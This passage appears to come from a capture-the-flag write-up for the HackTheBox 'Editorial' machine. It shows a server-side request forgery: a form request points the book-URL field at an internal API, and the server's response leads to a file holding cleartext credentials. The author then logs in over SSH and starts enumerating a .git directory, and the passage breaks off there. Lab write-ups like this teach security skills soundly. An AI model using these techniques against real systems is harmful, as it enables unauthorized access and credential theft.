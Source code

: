 ```
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000/api/latest/metadata/messages/authors

-----------------------------3973126007865768581930037291
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

-----------------------------3973126007865768581930037291--
```

After doing so I got the following response:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 23 Sep 2024 15:18:40 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 51

static/uploads/0ad00ea7-6634-455f-8d15-942e15a2160f
```

Clearly, the returned parameter ```static/uploads/0ad00ea7-6634-455f-8d15-942e15a2160f``` warranted further inspection. The simplest approach was to revisit the HTTP history in Burp, locate the relevant response, right-click on it, and copy the entire URL. For instance:

```
http://editorial.htb/static/uploads/0ad00ea7-6634-455f-8d15-942e15a2160f
```

Upon pasting this URL into my browser, it prompted the download of a template file, which revealed some cleartext credentials upon closer inspection.

## Privilege Escalation

With the newly acquired credentials, I was able to SSH into the machine as the "dev" user and retrieve the user flag.

```
ssh dev@editorial.htb
```

Afterward, I started some light enumeration by browsing through directories. One key point of interest was the ".git" directory, which contained various git logs.

```
dev@editorial:~$ cd apps
dev@editorial:~/apps$ ls -la
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5 14:36 .
drwxr-x--- 4 dev dev 4096 Jun  5 14:36 ..
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
```
Digging a bit deeper:
